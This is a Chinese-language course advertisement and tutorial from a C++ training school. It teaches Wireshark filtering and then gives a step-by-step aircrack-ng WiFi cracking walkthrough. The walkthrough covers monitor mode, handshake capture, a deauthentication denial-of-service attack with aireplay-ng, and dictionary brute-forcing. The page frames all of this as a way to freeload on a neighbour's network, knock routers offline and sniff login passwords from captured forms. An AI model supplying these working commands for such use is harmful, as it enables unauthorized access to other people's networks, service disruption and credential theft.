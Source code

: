 [TOC]
# WIFI密码破解与网络数据抓包——传智播客C++学院
# 【课程介绍】
屌丝逆袭之蹭网利器，在女朋友面前炫耀一下自己的“黑客功底”，在Linux的世界里，其实这都不是什么难事；瘫痪路由器，发起网络攻击，抓包数据分析，加入"网络圣战"，进入Linux世界，轻松让你成为“高逼格”的IT达人。
# 【课程知识点】
1. Wifi密码破解原理剖析
2. 网络数据抓包与分析
3. 路由器攻击，瘫痪网络
4. 随心所欲，开发定制密码字典
5. 枚举字典，暴力破解
6. 轻松使用”隔壁老王“的wifi
# 【课程详情】

##  网络数据抓包与分析

Wireshark是一个非常好用的抓包工具，当我们遇到一些和网络相关的问题时，可以通过这个工具进行分析，不过要说明的是，这只是一个工具，用法是非常灵活的。

![wireshark](https://raw.githubusercontent.com/xwpfullstack/openlessons/dev/img/5.png "wireshark")

wireshark下载地址

	https://www.wireshark.org/download.html

### 选取网卡

wireshark左上角，查找list那个钮。

### 设置抓包过滤器(CaptureFilters)

	语法： Protocol $ Direction $ Host(s) $ Value $ Logical Operations $ Other expression
	例子：  ip  src host  192.168.1.100 
	            tcp  dst  port  8080

#### Protocol（协议）:

可能的值: ether, fddi, ip, arp, rarp, decnet, lat, sca, moprc, mopdl, tcp and udp.

如果没有特别指明是什么协议，则默认使用所有支持的协议。

#### Direction（方向）:

可能的值: src, dst, src and dst, src or dst

如果没有特别指明来源或目的地，则默认使用 “src or dst” 作为关键字。
例如，”host 10.2.2.2″与”src or dst host 10.2.2.2″是一样的。

#### Host(s):

可能的值： net, port, host, portrange.

如果没有指定此值，则默认使用”host”关键字。
例如，”src 10.1.1.1″与”src host 10.1.1.1″相同。

#### Logical Operations（逻辑运算）:

可能的值：not, and, or.

否(“not”)具有最高的优先级。或(“or”)和与(“and”)具有相同的优先级，运算时从左至右进行。
例如:

	“not tcp port 3128 and tcp port 23″与”(not tcp port 3128) and tcp port 23″相同。
	“not tcp port 3128 and tcp port 23″与”not (tcp port 3128 and tcp port 23)”不同。

如果过滤器的语法是正确的，表达式的背景呈绿色。如果呈红色，说明表达式有误。

### 设置显示过滤器(DisplayFilters)

	语法： Protocol.String1.String2  $  Comparison operator  $  Value $ Logical Operations $ Other expression
	例子： ip.src==192.168.1.100  (显示来源为192.192.168.1.100的包)
	           tcp.port==80

### 网络封包分析

	捕获登陆某网站的表单，分析其账号和密码。

##  Wifi密码破解原理剖析

画图示意

## Aircrack-ng
### 下载

	http://www.aircrack-ng.org/
	http://www.aircrack-ng.org/downloads.html
	wget http://download.aircrack-ng.org/aircrack-ng-1.2-rc2.tar.gz

### 安装

	sudo apt-get install build-essential libssl-dev pkg-config libnl-3-dev libnl-genl-3-dev
	tar zxvf aircrack-ng-1.2-rc2.tar.gz
	cd aircrack-ng-1.2-rc2
	make
	sudo make install
## WIFI 密码破解
1. 查看本机电脑无线网卡

	iwconfig  或者 ifconfig

2. 激活网卡到monitor模式，得到监控模式下的设备名为wlan0mon

	sudo airmon-ng  start  wlan0

3. 探测无线网络，选取破解路由器对象

	 sudo airodump-ng  wlan0mon

4. 设定监控频道，抓取被选定路由器的数据包，始终运行

	sudo airodump-ng  --ivs  -w  linuxcpp  -c  6  wlan0mon

	捕获的包存入linuxcp-0x.ivs 文件。x为序号

5. 新开终端，发起Deauth攻击，迫使客户端重新链接路由器

	sudo aireplay-ng  -0  1  -a 路由器MAC  -h  合法链接客户端MAC   wlan0mon

	De-Authentication DoS
	去验证洪水攻击，国际上称之为De-authentication Flood Attack，全称即去身份验证洪水攻击或去验证阻断洪水攻击，通常被简称为Deauth攻击，是无线网络拒绝服务攻击的一种形式，它旨在通过欺骗从AP到客户端单播地址的去身份验证帧来将客户端转为未关联的/未认证的状态。

如果Deauth攻击成功，airodump-ng捕获handshake ，此时可以ctrl+c终止airodump-ng抓包。

![四次握手包](https://raw.githubusercontent.com/xwpfullstack/openlessons/dev/img/%E5%9B%9B%E6%AC%A1%E6%8F%A1%E6%89%8B%E5%8C%85.png "四次握手包")

6. aircrack-ng 穷举字典，暴力破解

	sudo aircrack-ng  -w  dic  linuxcpp-01.ivs

	破解成功与否取决与字典是否涵盖全面，破解速度取决于硬件计算性能和字典优化
![破解](https://raw.githubusercontent.com/xwpfullstack/openlessons/dev/img/1.png "破解")

![成功破解](https://raw.githubusercontent.com/xwpfullstack/openlessons/dev/img/%E7%A0%B4%E8%A7%A3%E6%88%90%E5%8A%9F.png "成功破解")

## 字典开发

### 隔壁老王，蹭了你的网，看了你的信，就差......

如何防御呢？如何更灵活的进攻呢？欢迎大家走进传智播客c++学院，掌握高性能的c/c++语言，精通高B格的Linux系统编程，想要什么工具？自己写起。。。

## c++学院学员就业方向
1. 服务器开发
2. MFC和QT应用程序开发
3. Linux/Android系统开发
4. 数据库开发
5. 网络安全开发
6. web全栈开发（Django）

## 广州c++分校开班 —— 2016年3月20号

## 北京总部c++开班 —— 2015年12月5号

![传智c++学院](https://raw.githubusercontent.com/xwpfullstack/openlessons/dev/img/6.png "传智c++学院")	
